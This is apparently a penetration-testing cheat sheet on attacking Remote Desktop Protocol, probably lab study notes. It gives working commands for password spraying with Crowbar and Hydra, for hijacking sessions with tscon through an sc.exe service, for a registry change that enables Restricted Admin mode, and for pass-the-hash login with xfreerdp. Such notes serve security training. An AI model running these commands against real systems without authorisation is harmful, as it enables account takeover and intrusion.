



[Remote Desktop Protocol (RDP)](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol) is a proprietary protocol developed by Microsoft which provides a user with a graphical interface to connect to another computer over a network connection. It is also one of the most popular administration tools, allowing system administrators to centrally control their remote systems with the same functionality as if they were on-site. 

By default, RDP uses port `TCP/3389`.

### Enumeration

```bash
nmap -Pn -p3389 <ip-address>
```

### Misconfiguration

Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing.

Using the [Crowbar](https://github.com/galkan/crowbar) tool, we can perform a password spraying attack against the RDP service. 

#### Crowbar - RDP Password Spraying

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

#### Hydra - RDP Password Spraying

```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

#### RDP Login

```bash
rdesktop -u admin -p password123 192.168.2.143
```

### Protocol Specific Attacks

#### RDP Session Hijacking



To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session.

```bash
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary.

```bash
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```



```bash
C:\htb> net start sessionhijack
```

### RDP Pass-the-Hash (PtH)

#### Adding the DisableRestrictedAdmin Registry Key

```bash
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```



```bash
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```

